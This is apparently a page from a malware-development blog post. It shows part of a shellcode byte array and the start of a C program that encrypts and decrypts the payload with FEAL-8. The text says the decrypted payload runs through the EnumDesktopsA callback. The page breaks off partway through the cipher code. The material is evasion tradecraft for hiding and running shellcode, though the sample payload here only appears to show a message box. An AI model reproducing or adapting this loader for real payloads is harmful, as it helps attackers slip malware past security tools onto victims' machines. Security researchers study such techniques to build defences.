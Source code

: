 ```cpp
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

and the decrypted payload is executed using the `EnumDesktopsA` function.

The full source code is looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8    // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);
}

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}

// FEAL-8 encryption function
```